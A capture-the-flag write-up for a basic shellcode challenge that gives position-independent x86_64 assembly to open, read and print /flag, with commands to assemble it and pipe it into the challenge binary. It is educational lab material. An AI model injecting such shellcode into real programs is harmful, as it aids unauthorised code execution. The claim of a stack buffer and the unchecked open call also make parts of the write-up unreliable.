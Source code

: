 # **Binary Exploitation: Basic Shellcode Challenge Write-up**

## **Challenge Overview**
The **basic-shellcode** challenge requires writing and executing position-independent shellcode to read and print the contents of `/flag`. The program allocates memory on the stack, reads shellcode from stdin, and executes it. Key constraints include:

- **Position-independent code (PIC)**: The shellcode must work regardless of where it's loaded in memory.
- **Closed file descriptors**: All file descriptors > 2 are closed, so we must use standard file descriptors (0: stdin, 1: stdout, 2: stderr).
- **No environment variables/arguments**: The shellcode must be self-contained.

---

## **Solution Approach**
The goal is to write shellcode that:
1. **Opens** `/flag` (using the `open` syscall).
2. **Reads** its contents (using the `read` syscall).
3. **Writes** the contents to stdout (using the `write` syscall).
4. **Exits** cleanly (using the `exit` syscall).

### **Step-by-Step Shellcode Breakdown**
#### **1. Open the File (`/flag`)**
- **Syscall:** `open` (syscall number `2` in x86_64).
- **Arguments:**
  - `rdi`: Pointer to the filename (`/flag`).
  - `rsi`: Flags (`0` for `O_RDONLY`).
  - `rdx`: Mode (ignored, set to `0`).

```asm
mov rax, 2          ; sys_open
lea rdi, [rel flag] ; filename (position-independent)
mov rsi, 0          ; O_RDONLY
mov rdx, 0          ; mode
syscall
```

#### **2. Read the File Contents**
- **Syscall:** `read` (syscall number `0`).
- **Arguments:**
  - `rdi`: File descriptor (returned from `open`).
  - `rsi`: Buffer to store data (stack-based).
  - `rdx`: Number of bytes to read (e.g., `100`).

```asm
mov rdi, rax        ; fd from open()
mov rax, 0          ; sys_read
lea rsi, [rel buf]  ; buffer
mov rdx, 100        ; bytes to read
syscall
```

#### **3. Write to Stdout**
- **Syscall:** `write` (syscall number `1`).
- **Arguments:**
  - `rdi`: File descriptor (`1` for stdout).
  - `rsi`: Buffer containing the flag.
  - `rdx`: Number of bytes read (returned from `read`).

```asm
mov rdx, rax        ; bytes read
mov rax, 1          ; sys_write
mov rdi, 1          ; stdout
lea rsi, [rel buf]  ; buffer
syscall
```

#### **4. Exit the Program**
- **Syscall:** `exit` (syscall number `60`).
- **Arguments:**
  - `rdi`: Exit code (`0` for success).

```asm
mov rax, 60         ; sys_exit
mov rdi, 0          ; exit code
syscall
```

#### **Data Section (Filename & Buffer)**
```asm
flag:
    db "/flag", 0   ; null-terminated string
buf:
    times 100 db 0  ; 100-byte buffer
```

---

## **Final Assembly Code**
```asm
section .text
global _start

_start:
    ; Open /flag
    mov rax, 2
    lea rdi, [rel flag]
    mov rsi, 0
    mov rdx, 0
    syscall

    ; Read from file
    mov rdi, rax
    mov rax, 0
    lea rsi, [rel buf]
    mov rdx, 100
    syscall

    ; Write to stdout
    mov rdx, rax
    mov rax, 1
    mov rdi, 1
    lea rsi, [rel buf]
    syscall

    ; Exit
    mov rax, 60
    mov rdi, 0
    syscall

flag:
    db "/flag", 0
buf:
    times 100 db 0
```

---

## **Compilation & Execution**
1. **Assemble the code** into an object file:
   ```bash
   nasm -f elf64 shellcode.asm -o shellcode.o
   ```
2. **Link** to create an executable (for testing):
   ```bash
   ld shellcode.o -o shellcode
   ```
3. **Extract raw shellcode**:
   ```bash
   objcopy --dump-section .text=shellcode.bin shellcode
   ```
4. **Pipe the shellcode** to the challenge:
   ```bash
   cat shellcode.bin | /challenge/binary-exploitation-basic-shellcode
   ```

---

## **Key Takeaways**
1. **Position-Independence**: Use `lea` with `rel` to reference data without hardcoded addresses.
2. **Syscalls in x86_64**:
   - `open` (2), `read` (0), `write` (1), `exit` (60).
   - Arguments passed in `rdi`, `rsi`, `rdx`.
3. **File Handling**:
   - Always check the return value of `open` (file descriptor).
   - Use a buffer to read data before writing it to stdout.
4. **Testing Shellcode**:
   - Test locally before running on the challenge binary.
   - Use `strace` to debug syscalls if needed.

---

## **Conclusion**
This challenge demonstrates fundamental shellcode writing for file operations in Linux. The key was constructing position-independent code that opens, reads, and writes the flag using raw syscalls. This technique is foundational for more advanced binary exploitation, such as **Return-Oriented Programming (ROP)** and **shellcode injection** in exploit development.

